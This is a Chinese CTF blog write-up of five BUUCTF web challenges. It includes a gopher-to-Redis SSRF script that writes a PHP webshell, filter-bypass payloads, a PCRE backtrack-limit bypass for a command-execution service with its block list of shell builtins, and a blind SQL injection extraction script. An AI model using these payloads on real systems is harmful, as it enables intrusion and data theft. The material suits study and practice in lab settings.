



<!--yml
category: 未分类
date: 2022-04-26 14:32:06
-->

# BUUCTF__web题解合集（十一）_风过江南乱的博客-CSDN博客

> 来源：[https://blog.csdn.net/TM_1024/article/details/108830826](https://blog.csdn.net/TM_1024/article/details/108830826)

## 前言

## 题目

### 1、[GKCTF2020]EZ三剑客-EzWeb

*   打开首页源代码提示`?secret` 访问出现`ifconfig`的执行结果，能得到题目的内网ip。

*   可能是SSRF题目，先尝试file协议读取文件。提示过滤，但没想到直接`file:/`或者直接加个空格`file: //`也行就能绕过，原因是因为它过滤的正则只是匹配了`file://`，然后就是猜 index.php 的路径，可以通过读取`etc/passwd`来得知www的路径为`var/www`，这也是默认路径。只有一点就是加了一层`/html/`。所以最终 index.php 的路径就是`var/www/html/index.php`

    ```
    通过 fie:/var/www/html/index.php  可以读取到过滤规则
    preg_match('/file\:\/\/|dict|\.\.\/|127.0.0.1|localhost/is', $url,$match) 
    ```

*   第二步扫描内网存活主机和开放的端口，抓包，利用 burp 的 intruder 模块爆破就行。

*   存活的主机内网地址好像就在题目的内网ip后几位，做了好几遍都是，比如我做题时，题目的ip是 173.86.90.10 ，有提示的主机就是173.86.90.12 。

*   然后就是端口，本题为6379端口，是`redis服务`的默认端口。在SSRF中，这是一个很容易遭到攻击的一个服务，了解[相关概念](https://www.cnblogs.com/zzjdbk/p/12970519.html)，也就是说往`redis`服务发送它可以识别处理的请求就能达到目的。而发送请求的方式就是利用`Gopher协议`来发送格式化字符串，了解一下[Gopher协议协议是什么](https://zhuanlan.zhihu.com/p/112055947)。

*   结合理解就是通过`Gopher协议`向`redis服务`发送符合格式的数据包可以被识别执行。执行包括写webshell、反弹shell等。问题就是怎么来转换成它可以识别的格式和传入什么。

*   所以，接下来就是一个脚本的事

```
 import urllib
protocol="gopher://"
ip="173.249.75.12"      
port="6379"
shell="\n\n<?php system(\"cat /flag\");?>\n\n"
filename="shell.php"
path="/var/www/html"
passwd=""
cmd=["flushall",
	 "set 1 {}".format(shell.replace(" ","${IFS}")),
	 "config set dir {}".format(path),
	 "config set dbfilename {}".format(filename),
	 "save"
	 ]
if passwd:
	cmd.insert(0,"AUTH {}".format(passwd))
payload=protocol+ip+":"+port+"/_"
def redis_format(arr):
	CRLF="\r\n"
	redis_arr = arr.split(" ")
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.quote(redis_format(x))
	print payload 
```

*   cmd 变量 为redis可以执行的命令格式。也就是上面介绍`redis`服务最后那部分。然后 redis_format 函数再进行数据包格式转换，也就是给redis发命令，按照他的序列化规则来转换。最后是url编码，避免格式错误。
*   将得到的字符串在题目中提交，然后再访问运行有redis的主机ip/shell.php。得到flag。
    
*   虽然说得到结果很容易，但理解解释就不好说。第一步的绕过 file 协议的过滤来读取源代码，还得猜一下路径，不过这个路径应该说是默认的。第二步找内网存活主机和端口，主机可能比较号好找，但端口太多了，可能就不好找，不过也可以猜常见服务运行的端口。第三步就是通过 Gopher 协议来发送数据包通过 redis 服务写入 webshell 最后成功解题。
*   主要是得知道 redis 服务在SSRF中的利用。

### 2、[BJDCTF 2nd]elementmaster

```
import requests
import time
url='http://c0c35ceb-d134-4829-b954-83b4d9c69807.node3.buuoj.cn/'
flag=''
element=['H', 'He', 'Li', 'Be', 'B', 'C', 'N', 'O', 'F', 'Ne', 'Na', 'Mg', 'Al', 'Si', 'P', 'S', 'Cl', 'Ar',
        'K', 'Ca', 'Sc', 'Ti', 'V', 'Cr', 'Mn', 'Fe', 'Co', 'Ni', 'Cu', 'Zn', 'Ga', 'Ge', 'As', 'Se', 'Br',
        'Kr', 'Rb', 'Sr', 'Y', 'Zr', 'Nb', 'Mo', 'Te', 'Ru', 'Rh', 'Pd', 'Ag', 'Cd', 'In', 'Sn', 'Sb', 'Te',
        'I', 'Xe', 'Cs', 'Ba', 'La', 'Ce', 'Pr', 'Nd', 'Pm', 'Sm', 'Eu', 'Gd', 'Tb', 'Dy', 'Ho', 'Er', 'Tm',
        'Yb', 'Lu', 'Hf', 'Ta', 'W', 'Re', 'Os', 'Ir', 'Pt', 'Au', 'Hg', 'Tl', 'Pb', 'Bi', 'Po', 'At', 'Rn',
        'Fr', 'Ra', 'Ac', 'Th', 'Pa', 'U', 'Np', 'Pu', 'Am', 'Cm', 'Bk', 'Cf', 'Es', 'Fm','Md', 'No', 'Lr',
        'Rf', 'Db', 'Sg', 'Bh', 'Hs', 'Mt', 'Ds', 'Rg', 'Cn', 'Nh', 'Fl', 'Mc', 'Lv', 'Ts', 'Og', 'Uue']

for i in element:
        r=requests.get(url+i+'.php')
        if r.status_code == 200:
                time.sleep(1)
                flag+=r.text
                print flag 
```

### 3、[MRCTF2020]套娃

*   第一步是在首页注释里的几行代码，过滤了下划线`_`包括 url 编码`%5f`，需要正则匹配到23333又不能相等。

*   绕过下划线的过滤可以用`%5F`或`.`或`%20`，`%5F`是因为 substr_count 函数大小写敏感。`.`和`%20`是因为PHP解析的特性，会将`.`和`%20`解析成`_`，包括还会将空白符去除。然后是正则匹配开头结尾为23333又不能相等。绕过方法是加一个换行的url编码`%0a`，正则匹配时会匹配换行符为结尾。

*   所以第一步payload

    ```
    ?b%5Fu%5Fp%5Ft=23333%0a 
    ```

*   第二步在 secrettw.php ，先能在注释中发现js的格式字符串。复制到控制台中粘贴运行能得到提示。随便POST传入一个Merak可以得到源代码。
    

*   首先ip要等于127.0.0.1，首先想到用XFF但是不行，用`Client-IP`生效。

*   然后是满足以下，PHP伪协议，可以用 `php://input`或 `data://text/plain;base64`

    ```
    file_get_contents($_GET['2333']) === 'todat is a happy day' 
    ```

*   最后是读flag.php，让经过change函数处理后的file变量为flag.php即可。

*   可以看到，change函数处理过程，先base64解码，然后再逐个字符串转换为ASCII码值加上 `$i*2` 其中`i`循环+1。然后再转回字符拼接返回。所以可以写一个反过程的函数得到需要的字符串。

```
<?php
function unchange($v){ 
    $re = '';
    for($i=0;$i<strlen($v);$i++){ 
        $re .= chr ( ord ($v[$i]) - $i*2 ); 
    } 
    return $re; 
}

$real_flag = unchange('flag.php');
echo base64_encode($real_flag);
?> 
```



*   [PHP解析的特性](https://www.freebuf.com/articles/web/213359.html)，header头部参数伪造本地IP，然后是PHP伪协议，再就是一个函数的逆过程。

### 4、[FBCTF2019]RCEService

*   首先明白`json`是啥，一种数据文本格式，来描述数据对象。虽然我知道它是什么东西，但我不知道该输入什么，看到源码才想通。

```
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}

?> 
```

*   首先是下面的执行代码，先转换json格式数据，然后执行system函数。

    ```
    $cmd = json_decode($json, true)['cmd'];
    system($cmd); 
    ```

*   所以直接 {“cmd”:“ls”} 就能执行`ls`命令，但也只能执行它，有点不能理解，虽然明白下面的代码重新设置了环境变量的路径。但是没理解这操作有什么用。

    ```
    putenv('PATH=/home/rceservice/jail'); 
    ```

*   不过看payload可以理解，调用命令的绝对路径。后面是flag的路径。

*   第一种方法 利用`preg_match()` 函数只能匹配第一行数据的特性来绕过，在payload加一个换行符`%0a`

    ```
    ?cmd={%0A"cmd":"/bin/cat /home/rceservice/flag"%0A} 
    ```

*   第二种方法是利用正则回溯次数大于上限时会返回布尔值false来绕过，[PHP利用PCRE回溯次数限制绕过某些安全限制](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

```
import requests

payload = '{"cmd":"/bin/cat /home/rceservice/flag","test":"' + "a"*(1000000) + '"}'
res = requests.post("http://ad66432f-4628-41f6-8190-d9b9c247904c.node3.buuoj.cn/", data={"cmd":payload})

print(res.text) 
```

### 5、[WUSTCTF2020]颜值成绩查询

*   布尔盲注，在测异或时发现1和 `1^0`的回显一样，0和 `1^1`的回显一样。
*   所以直接写脚本就行。

```
import requests
import time

url = "http://103048ee-0a94-4f23-ab6d-ba2830e76694.node3.buuoj.cn/?stunum=1"
res = ''
for i in range(1,50):
    print(i)
    left = 31
    right = 127
    mid = left + ((right - left)>>1)
    while left < right:        

        payload = "^(ascii(substr((select(value)from(flag)),{},1))>{})".format(i,mid)
        r = requests.get(url=url+payload)
        if r.status_code == 429:
            print('too fast')
            time.sleep(1)
        if 'Hi admin, your score is: 100'  in r.text:
            right = mid
        else:            
            left = mid + 1
        mid = left + ((right-left)>>1)
    if mid == 31 or mid == 127:
        break    
    res += chr(mid)
    print(str(mid),res) 
```

## 最后